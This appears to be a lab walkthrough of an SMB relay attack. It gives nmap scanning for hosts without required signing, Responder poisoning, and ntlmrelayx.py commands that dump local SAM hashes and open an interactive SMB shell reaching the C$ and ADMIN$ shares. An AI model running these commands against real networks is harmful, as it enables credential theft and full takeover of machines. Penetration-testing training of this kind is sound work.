 
First of all we need to run our nmap scan, to check for the host with **SMB** signing disabled

![](https://i.imgur.com/MlaVrME.jpg)

Now we can save  the host that have the prompt **"message signing enabled but not required"** into a **targets.txt** file

![](https://i.imgur.com/vNu7Yc1.png)

Now we can disable the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

![](https://i.imgur.com/7mRX0rr.png)

We can then startup `responder` with the syntax used previously in **LLMNR Poisoning** `sudo responder -i wlan0 -dwPv` (v for verbose)

![](https://i.imgur.com/TaJpooZ.png)

Now we can startup the `ntlmrelayx.py` tool wit these syntax `ntlmrelayx.py -tf targets.txt -smb2support` , if you don't have it, you can download it from [here](https://github.com/fortra/impacket/blob/impacket_0_9_19/examples/ntlmrelayx.py) and move it to `/usr/bin` 

> If you are still having problem with ntlmrelayx not working, you can download this [tool](https://github.com/Dewalt-arch/pimpmykali) officially made by the TCM members to fix things

![](https://i.imgur.com/Rdh5Zvu.jpg)

The next thing is for our target, to create an event (We are gonna be utilizing **THE-PUNISHER** VM) , remember the `\\ATACKER-IP`

![](https://dimitrios-tsarouchas.tech/assets/img/DNS-failure-Wrong-address.png)

**SAM hashes have been dumped**
![Local-SAM-hashes-have-been-dumped](https://dimitrios-tsarouchas.tech/assets/img/Local-SAM-hashes-have-been-dumped.png)_Local SAM hashes have been dumped_

The authentication succeeded because SMB signing is enabled but not required and because “dtsarouchas” is the Administrator on this computer. Therefore, the SAM hashes were able to be dumped. Now the attacker can copy the SAM hashes, try cracking them offline and move laterally or vertically.


The attacker now will gain access to SMB interactive shell by using the `ntlmrelayx.py -tf targets.txt -smb2support -i` command.

![Start-interactive-SMB-client-shell-via-TCP](https://dimitrios-tsarouchas.tech/assets/img/Start-interactive-SMB-client-shell-via-TCP.png)_Start interactive SMB client shell via TCP_

Now the attacker has access to the interactive shell on 127.0.0.1:11000 and will access that SMB shell using the command `nc 127.0.0.1 11000`.

![Run-netcat-to-access-the-SMB-shell](https://dimitrios-tsarouchas.tech/assets/img/Run-netcat-to-access-the-SMB-shell.png)_Run netcat to access the SMB shell_

The attacker navigates to shares where he can find ADMIN$, C$, IPC$, and Share folders. Then he uses the C$ drive and lists the files this folder has in it.

![List-the-contents-of-C$-drive](https://dimitrios-tsarouchas.tech/assets/img/List-the-contents-of-C$-drive.png)_List the contents of C$ drive_

Going a step further, he uses the ADMIN$ folder where he can add files, get files, having full control on the administrator folder and subsequently to this computer.

![Listing-the-contents-of-the-ADMIN$-folder](https://dimitrios-tsarouchas.tech/assets/img/Listing-the-contents-of-the-ADMIN$-folder.png)_Listing the contents of the ADMIN$ folder_